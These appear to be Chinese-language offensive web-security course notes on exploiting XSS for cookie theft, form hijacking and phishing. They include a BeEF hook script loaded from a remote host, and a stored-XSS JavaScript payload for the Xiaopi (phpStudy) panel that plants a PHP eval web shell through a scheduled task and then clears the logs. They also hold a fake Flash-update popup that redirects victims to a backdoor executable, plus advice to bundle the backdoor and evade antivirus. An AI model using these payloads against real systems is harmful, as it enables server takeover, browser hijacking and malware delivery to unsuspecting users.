





# WEB攻防-XSS跨站&Cookie盗取&表单劫持&网络钓鱼&溯源分析&项目平台框架

黑盒





修改地址和s



\#XSS跨站-攻击利用-网络钓鱼

1、部署可访问的钓鱼页面并修改

2、植入XSS代码等待受害者触发

3、将后门及正常文件捆绑打包免杀

https://github.com/r00tSe7en/Fake-flash.cn

\#XSS跨站-攻击利用-溯源综合

1、XSS数据平台-XSSReceiver

浏览器控制框架-beef-xss

只需执行JS文件，即可实现对当前浏览器的控制，可配合各类手法利用apt update

apt install docker

apt install docker-compose

搭建：docker run --rm -p 3000:3000 janes/beef

访问：http://ip/ui/panel （账号密码：beef/beef）

```
<script src="http://ip:3000/hook.js"></script>
```

<script src="http://ip:3000/hook.js"></script>

\#XSS跨站-攻击利用-数据提交

条件：熟悉后台业务功能数据包，利用JS写一个模拟提交

利用：凭据获取不到或有防护无法利用凭据进入时执行其他

演示：小皮面板系统存储XSS提交数据包模拟写入后门文件

blog.csdn.net/RestoreJustice/article/details/129735449

<script src="http://xx.xxx.xxx/poc.js"></script>

```
function poc(){
  $.get('/service/app/tasks.php?type=task_list',{},function(data){
    var id=data.data[0].ID;
    $.post('/service/app/tasks.php?type=exec_task',{
      tid:id
    },function(res2){
        $.post('/service/app/log.php?type=clearlog',{
            
        },function(res3){},"json");
        
      
    },"json");
  },"json");
}
function save(){
  var data=new Object();
  data.task_id="";
  data.title="test";
  data.exec_cycle="1";
  data.week="1";
  data.day="3";
  data.hour="14";
  data.minute = "20";
  data.shell='echo '<?php @eval($_POST[123]);?>' >C:/xp.cn/www/wwwroot/admin/localhost_80/wwwroot/1.php';
  $.post('/service/app/tasks.php?type=save_shell',data,function(res){
    poc();
  },'json');
}
save();

```

## 钓鱼

保存html页面源码



修改下载地址为后门地址



https://github.com/r00tSe7en/Fake-flash.cn

让对方弹窗

```
<script>alert('当前浏览器Flash版本过低,请下载升级！');location.href='http://x.x.x.x/flash.exe'</script>
```

